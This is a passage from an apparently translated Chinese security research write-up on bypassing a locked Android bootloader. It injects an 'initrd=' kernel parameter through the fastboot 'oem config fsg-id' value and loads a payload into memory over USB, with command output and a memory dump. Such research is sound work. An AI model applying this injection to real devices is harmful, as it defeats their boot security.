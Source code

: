 这将覆盖DTB中的ABOOT所提供的默认值。我们使用一个随机值来测试，希望该值会导致内核崩溃：



```
$ fastboot oem config fsg-id "a initrd=0x33333333,1024"
[...]
(bootloader) &lt;UTAG name="fsg-id" type="str" protected="false"&gt;
(bootloader)   &lt;value&gt;
(bootloader)     a initrd=0x33333333,1024
(bootloader)   &lt;/value&gt;
(bootloader)   &lt;description&gt;
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   &lt;/description&gt;
(bootloader) &lt;/UTAG&gt;
OKAY [  0.016s]
finished. total time: 0.016s
$ fastboot continue
```

内核的确崩溃了！

这类攻击的原理类似于在内存损坏漏洞中所使用的控制指令指针（IP寄存器，IP代表Instruction Point）或者程序计数器（PC寄存器，PC代表Program Counter）的原理，因此当前最紧要的第一步，就是利用fastboot，将经过我们修改的initramfs存档加载到设备内存中。

需要注意的是，Linux内核不会重新检查initramfs的真实性，它依赖bootloader来完成这一任务，因此如果我们设法将修改过的initramfs存放到可控的phys_initrd_start物理地址上，内核的确会将其填充到rootfs中。

<br>

**十、通过USB将任意数据载入内存中**

ABOOT的fastboot提供了一个使用USB进行下载的机制，该机制支持固件刷写（flashing）功能。在锁定的bootloader中，下载功能依然可以使用，因此攻击者可以使用这个功能将被修改过的initramfs载入设备。我们唯一的希望就是，在initramfs被填充到rootfs之前，bootloader和内核不会将这些数据填充为0或者覆盖这些数据。为了验证这一点，我们做了如下实验。首先，我们安装了自定义的msm-shamu内核，该内核具备LKM（Loadable-Kernel Modules，可加载内核模块）功能。然后，我们通过fastboot将一大段数据（0123456789ABCDEFALEFALEFALEF…）上传到设备中：



```
$ fastboot flash aleph payload.bin
[...]
target reported max download size of 536870912 bytes
sending 'aleph' (524288 KB)...
OKAY [ 62.610s]
writing 'aleph'...
(bootloader) Not allowed in LOCKED state!
FAILED (remote failure)
finished. total time: 62.630s
```

请注意，出现错误信息是因为我们试图刷写固件，然而设备的确下载了这些数据。

我们通过fastboot continue启动了平台，然后使用[LiME LKM](https://github.com/504ensicsLabs/LiME)工具将整个物理内存导出，从中搜寻我们上传的数据。



```
10FFFFC0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
10FFFFD0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
10FFFFE0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
10FFFFF0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
11000000  30 31 32 33 34 35 36 37 38 39 41 42 43 44 45 46  0123456789ABCDEF
11000010  41 4C 45 46 41 4C 45 46 41 4C 45 46 41 4C 45 46  ALEFALEFALEFALEF
11000020  41 4C 45 46 41 4C 45 46 41 4C 45 46 41 4C 45 46  ALEFALEFALEFALEF
11000030  41 4C 45 46 41 4C 45 46 41 4C 45 46 41 4C 45 46  ALEFALEFALEFALEF
11000040  41 4C 45 46 41 4C 45 46 41 4C 45 46 41 4C 45 46  ALEFALEFALEFALEF
11000050  41 4C 45 46 41 4C 45 46 41 4C 45 46 41 4C 45 46  ALEFALEFALEFALEF
```
